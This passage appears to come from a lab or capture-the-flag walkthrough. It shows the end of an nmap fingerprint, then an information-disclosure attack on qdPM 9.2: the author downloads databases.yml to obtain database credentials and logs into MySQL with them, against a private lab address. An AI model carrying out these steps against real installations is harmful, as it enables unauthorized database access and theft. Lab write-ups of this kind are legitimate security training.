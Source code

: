 ```
SF:000")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString
SF:,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x
SF:08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"
SF:\x05HY000")%r(LDAPBindReq,46,"\x05\0\0\0\x0b\x08\x05\x1a\x009\0\0\0\x01
SF:\x08\x01\x10\x88'\x1a\*Parse\x20error\x20unserializing\x20protobuf\x20m
SF:essage\"\x05HY000")%r(SIPOptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LA
SF:NDesk-RC,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TerminalServer,9,"\x05\0\0
SF:\0\x0b\x08\x05\x1a\0")%r(NCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesR
SF:PC,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\
SF:x0fInvalid\x20message\"\x05HY000")%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\
SF:x1a\0")%r(WMSRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(oracle-tns,32,
SF:"\x05\0\0\0\x0b\x08\x05\x1a\0%\0\0\0\x01\x08\x01\x10\x88'\x1a\x16Invali
SF:d\x20message-frame\.\"\x05HY000")%r(ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\
SF:x1a\0")%r(afp,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x1
SF:0\x88'\x1a\x0fInvalid\x20message\"\x05HY000");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.90 seconds
```

The website being served is the project management tool qdPM version 9.2. When googling for exploits for this tool, I find out this exploit: https://www.exploit-db.com/exploits/50176.

I then proceed to http://192.168.56.101/core/config/databases.yml and download the "databases.yml" file, that reads:

```
┌──(j㉿kali)-[~/Machines/ica-1]
└─$ cat databases.yml 
  
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qdpm;host=localhost'
      profiler: false
      username: qdpmadmin
      password: "<?php echo urlencode('UcVQCMQk2STVeS6J') ; ?>"
      attributes:
        quote_identifier: true  
```

So I try to log into port served in 3306 as shown in the scan with these credentials:

```
┌──(j㉿kali)-[~/Machines/ica-1]
└─$ mysql -h 192.168.56.101 -u qdpmadmin -p qdpm
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 150
Server version: 8.0.26 MySQL Community Server - GPL

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [qdpm]> 
```
